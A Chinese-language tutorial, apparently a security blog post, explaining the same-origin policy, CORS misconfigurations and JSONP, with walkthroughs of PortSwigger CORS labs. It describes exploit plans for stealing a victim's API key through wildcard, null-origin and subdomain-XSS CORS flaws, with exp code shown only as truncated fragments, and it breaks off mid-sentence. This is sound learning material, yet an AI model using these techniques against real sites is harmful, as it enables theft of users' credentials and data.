


跨域漏洞那些事儿（cors,jsonp)
本文首发于雷神众测：
https://mp.weixin.qq.com/s/cHOvEbYtYNfl2lQ8-N3qtA
近期在src挖掘中经常看到大佬们提到cors,josnp一直不太理解此类漏洞。特此学习记录一下，如有错误之处还望师傅们斧正。
1.跨域资源共享（cors)
跨域资源共享(cors)原理：
在讲cors之前我们先来了解一下同源策略（sop）。
1.1 同源策略
浏览器的安全基石是同源策略。同源策略保证了同一个浏览器打开不同网站，不同网站之间不会相互影响。
列如：张三登陆了某银行网站，浏览器存储了他的cookie。而这时他又打开了另一个小网站，该小网站会记录用户的cookie。如果没有同源策略，他就会记录浏览器存储的cookie，此时银行网站的cookie也被记录，从而造成银行用户cookie泄露。
同源策略中的同源是指：
三个同源：同协议，同域名，同端口 ，例如：
1 | https:www.test.com 和 http:www.test.com (不同源，协议不同) |
1.2 同源策略(sop)的窗口跨域资源共享(cors)
但是安全和方便总是难两全。张三新开发了一个网站A，要从网站B上获取数据，但是因为同源策略的存在他获取不了B网站上的数据。此时他通过搜索发现一个叫做跨域资源共享的东西经过一通配置，他成功获取到了B网站的数据：
他的配置如下：
1 | Access-Control-Allow-Origin: * |
这个配置在满足要求的同时也造成了严重的安全问题，*Access-Control-Allow-Origin: * ** 通配符允许A网站访问的同时也允许了其他任意网站的访问。假设一个攻击过程：
网站C的cors配置存在缺陷，被一个黑客发现，该黑客通过友链申请，给站长发送了一个网站链接，站长为了确认友链网站，打开了网站链接，而该网站中部署了黑客精心构造的恶意脚本，能够自动获取存储网站C中的cookie信息，此时黑客就获取到了站长的cookie信息…
配置讲解：
Access-Control-Allow-Origin：*
web浏览器将Access-Control-Allow-Origin与请求网站的来源进行比较，如果匹配则允许访问响应
例如：Access-Control-Allow-Origin：http://www.test.com
此时网站login.test.com（小A)向www.test.com(小B）发起 请求，小B一看请求源（origin）和自己的配置不一样，知道小A可能是个坏蛋，照例将请求返回给小A，但是响应中不含有Access-Control-Allow-Origin标头，万能的浏览器一看跨域请求，响应中还没有Access-Control-Allow-Origin字段，立马报错。坏蛋小A就获取不到小B的数据了…
更多详细讲解可参考阮老师文章：https://www.ruanyifeng.com/blog/2016/04/cors.html
Access-Control-Allow-Credentials: true
该字段可选。它的值是一个布尔值，表示是否允许发送Cookie。默认情况下，Cookie不包括在CORS请求之中。
设为true，即表示服务器明确许可，Cookie可以包含在请求中，一起发给服务器。这个值也只能设为true，如果服务器不要浏览器发送Cookie，删除该字段即可。
通过前面的介绍我们对cors也知名知意了，这时问题就出现了，这漏洞该怎么挖呢？
这时就要了解一下burpsuite网站的实验室，该实验室中存在多中漏洞实验，在学习漏洞知识的同时也能实战学习漏洞利用技巧，接下来就简单记录一下实验过程。
实验链接：https://portswigger.net/web-security/cors
实战练习：
1.1 来源（origin)可任意更改的cors漏洞

该实验个人账户界面存在账户的api密钥，我们的目标就是获取到用户的api密钥
通过观察网站源码，发现api密码是通过一个ajax接口返回到页面的。直接访问接口，并将请求来源跟改为任意网站可以获取到密钥，说明存在cors漏洞

此时我们有一个攻击思路：
部署一个恶意脚本到我们的网站上，并将该网址链接发送给要攻击的小王，小王只要访问了我们的链接，我们即可在web日志中获取到小王的api密钥
恶意脚本：
1 | <script> |
获取到的密钥：

1.2 来源（origin) 可为null的cors漏洞
在某些应用程序中可能会将null列入白名单，以支持本地应用程序的开发。
origin标头不可以设置为任意标头了，尝试设置为null，此时可以获取到数据，说明存在请求来源可为null的cors漏洞

本地html测试：
测试exp:
1 | <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> |

此时我们继续采用实验一的攻击思路：
部署一个恶意脚本到我们的网站上，并将该网址链接发送给要攻击的小王，小王只要访问了我们的链接，我们即可获取到小王的api密钥
编写exp:
1 | <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> |
1.3 利用信任子域的xss获取主域的敏感信息
有些服务器的配置为：
1 | Access-Control-Allow-Origin: http://*.test.com |
这个配置乍一看没问题，信任自己的子域不是很正常吗，但是子域成百上千的大网站中，子域就特别容易出问题，找个xss既有可能严重威胁到主站。而且该配置也不符合最小信任原则，通配符不能随便用，应该设置为固定值。例如：
Access-Control-Allow-Origin: http://login.test.com 此时只要保证login.test.com没问题即可确保主站不会遭受cors攻击
在该实验三中将来源（origin)设置为任意子域，如：

设置为不存在的example子域，依旧可以访问敏感数据
正好该网站的检查库存会将单价信息返回到子域，并且productId参数存在xss漏洞
所以想到一个利用链：
1 | 子域触发xss--->访问主域敏感信息--->将敏感信息保存到任意网站 |
exp:
1 | <script> |
exp解释：
1 | <script> |
跨域除了cors外还有一种非官方的方法jsonp，jsonp 是 JSON with padding（填充式 JSON 或参数式 JSON）的简写。
jsonp通过动态创建